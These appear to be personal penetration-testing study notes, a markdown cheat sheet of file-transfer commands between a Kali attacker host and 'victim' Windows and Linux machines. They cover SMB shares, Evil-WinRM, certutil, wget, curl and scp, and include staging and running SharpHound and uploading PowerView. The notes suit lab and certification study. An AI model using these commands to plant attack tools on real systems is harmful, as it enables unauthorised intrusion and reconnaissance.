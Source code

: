```yaml
---
description: >-
  This took lots of time for me to compile and understand. However, through
  applying the "try harder" mentality, this concept has made me gain more
  confidence in my competence.
cover: https://media3.giphy.com/media/xTiTnjZAjQipGn9JFS/200.gif
coverY: 0
---
```


# 📤 File Transfer

## Windows->Linux Methods

### SMB Server

On Kali:

```
impacket-smbserver smb . -smb2support
```

On Windows:

```
net use \\<kali-ip>\smb

copy \\<kali-ip>\smb\SharpHound.exe .

dir

SharpHound.exe
```

* Be sure to open up the file through the file manager on Linux (GUI)
* This makes things easier

### Evil-WinRM

```
# Download to your Kali:
Evil-WinRM download /file/name/here

# Upload a file to the Windows victim from Kali
Evil-WinRM upload /file/name/here
```

## Linux->Windows

### Certutil

On Kali:

```
python3 -m http.server
```

On Windows:

```
certutil -urlcache -f http://<kali_ip_here:8000>/name_of_file name_of_file
```

### Evil-WinRM

```
Evil-WinRM: PS C:\programdata> upload /../../../PowerView.ps1
```

## Linux->Linux

### Wget

On Kali:

```
python3 -m http.server
```

On Victim:

```
wget http://<tun0_ip_here>:8000/<file_name_here> <file_name_here>
```

### Curl

On Kali:

```
python3 -m http.server
```

On Victim:

```
curl http://<tun0_ip_here:8000/<file_name_here> <file_name_here>
```

## SCP

* Is SSH open?
* SSH Creds or Key
* Identify path of file you want with <mark style="color:red;">`pwd`</mark>

Copying a file from a remote system to yours:

```
scp user@10.10.10.1:C:/ftp/infrastructure .
password:

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00    
```

Transfering a file from your system to a remote system:

```
scp root@10.10.10.1 -i ~/.ssh/id_rsa wordlist.txt /root/wordlists
```

## References

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

